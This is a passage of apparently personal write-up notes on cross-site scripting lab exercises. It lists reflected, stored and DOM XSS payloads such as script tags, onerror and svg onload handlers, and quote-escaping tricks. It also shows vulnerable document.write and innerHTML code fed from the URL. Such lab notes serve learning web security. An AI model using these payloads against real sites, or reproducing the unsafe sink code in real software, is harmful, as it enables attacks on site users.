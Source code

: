 '-alert(0)-' => var searchTerms = '\'-alert(0)-\''; => <img src="?searchTerms='-alert(1)-'">
"-alert(1)-" => var searchTerms = '"-alert(1)-"'; => <img src="?searchTerms=%22-alert(1)-%22">
%00" => var searchTerms = '�"'; => <img src="?searchTerms=%EF%BF%BD%22">

https://www.autosectools.com/Cross-site-Scripting-Encoding-Bypass
https://security.stackexchange.com/questions/155864/bypass-filtering-of-single-quote-for-xss-in-input-field
https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global\_Objects/encodeURIComponent

```

#### Reflected XSS into a JavaScript string with angle brackets HTML encoded
```javascript
'; alert(1);//
```

#### Stored XSS into HTML context with nothing encoded
Comment `<img src=x onerror=alert(1)>`

#### DOM XSS in document.write sink using source location.search
The sink and source are in embedded javascript within the search page.

```javascript
function trackSearch(query) {
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    trackSearch(query);
}	
```

Using this payload `x"><script>alert(1)</script><img src="x` the document.write will look like:

```
<img src="/resources/images/tracker.gif?searchTerms=x"><script>alert(1)</script><img src="x">
```

Intended solution `"><svg onload=alert(1)>`

#### DOM XSS in innerHTML sink using source location.search

```javascript
function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}
``` 
